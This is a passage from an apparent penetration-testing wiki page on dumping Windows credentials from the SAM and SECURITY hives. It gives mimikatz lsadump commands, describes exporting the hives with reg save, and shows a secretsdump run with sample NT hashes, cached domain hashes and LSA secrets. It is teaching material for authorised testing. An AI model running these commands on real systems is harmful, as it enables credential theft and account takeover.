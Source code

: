 Moreover, in the SECURITY hive file, there are also stored the credentials from the last [domain users logged in the machine](https://docs.microsoft.com/en-us/troubleshoot/windows-server/user-profiles-and-logon/cached-domain-logon-information), known as the Domain cached credentials (DCC). Thus, the computer can authenticate the domain user even if the connection with the domain controllers is lost. This cached credentials are MSCACHEV2/MSCASH hashes, different from the NT hashes, so they cannot be used to perform a Pass-The-Hash, but you can still try to [crack them](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials) in order to retrieve the user password.

#### **SAM**

And the other place where there are credentials is the [SAM](https://en.wikipedia.org/wiki/Security\_Account\_Manager) hive file, that contains the NT hashes of the local users of the computer. This could be useful since sometimes organizations set the same local Administrator password in the domain computers.

#### **Dumping registry credentials**

To get the credentials from the SECURITY and SAM hives, you can read them from memory by using mimikatz.

First you will need to execute `token::elevate` to acquire a `SYSTEM` session, that allows you to read the credentials. Also execute `privilege::debug` if required to enable the SeDebugPrivilege.

Then, you can execute the following commands that will retrieve the different credentials:

* `lsadump::secrets`: Get the LSA secrets.
* `lsadump::cache`: Retrieve the cached domain logons.
* `lsadump::sam`: Fetch the local account credentials.

An alternative is to save a copy of the hive files with [reg save](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-save) command, move them to our machine, and finally to get the content with [impacket secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) script or mimikatz.

The process to exfiltrate the hives and dump their contents can be found in the following resource:

{% content-ref url="../../../general/credential-access/os-credential-dumping/sam-and-lsa-secrets-and-cached-domain-credentials.md" %}
[sam-and-lsa-secrets-and-cached-domain-credentials.md](../../../general/credential-access/os-credential-dumping/sam-and-lsa-secrets-and-cached-domain-credentials.md)
{% endcontent-ref %}

Example:

```bash
$ secretsdump.py -system system.bin -security security.bin -sam sam.bin  LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xb471eae0e93128b9c8d5780c19ac9f1d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6535b87abdb112a8fc3bf92528ac01f6:::
user:1001:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Dumping cached domain logon information (domain/username:hash)
CONTOSO.LOCAL/anakin:$DCC2$10240#anakin#2933cad9235d2f502d7bedc2016e6553
CONTOSO.LOCAL/han:$DCC2$10240#han#4a52a6d0d7f3590c68124f4d5f7ef285
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:59aa6b91e74a0a6fc40efee9f2fb07936a9d69f46397dee82d3ec6ca4d0c01a0293d79e5c040bf564b7938d6c25597816921ec614ad25933af6a2482a8ace4d1dd54dd4bb465384b30046d85f65083e885455ec5f01dcae30df619e3f944eaa008a09e0f7432981f7cdb8dea34e432f00ed92e1ae3e48111326deb2d0f9a6e7d868e24c840b8814d338a4165f90381a4a6b824addb4f71c5908cac4423a4efbc5a4d846c09245930b526a6bec8c678ca838a005dcf5014f8b18426c3e0dbd3921f82c57e6ca025d0258d4536a9e0b68b90ff26c054c992c84d11e95f78c55ca411ee0e5b412cb4fc0f08c28ca2d79996
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b13dae64def5f205f382a0ab4174eb85
```

[dc01]: PS C:\Users\Administrator\Documents> whoami
[dc01]: PS C:\Users\Administrator\Documents> hostname